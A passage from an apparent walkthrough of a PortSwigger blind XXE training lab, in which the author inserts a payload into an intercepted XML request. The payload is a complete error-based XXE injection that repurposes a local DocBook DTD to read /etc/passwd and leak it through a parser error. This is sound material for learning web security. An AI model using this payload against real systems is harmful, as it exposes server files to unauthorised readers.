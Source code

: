 ![interceptor](/docs/assets/images/portswigger/blindxxe/bxxe29.png)

I could send this to the repeater now or I can just do what I need to from here. Which is to add my payload just under the line with the XML declaration: 

``` 
<!DOCTYPE message [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]> 
``` 
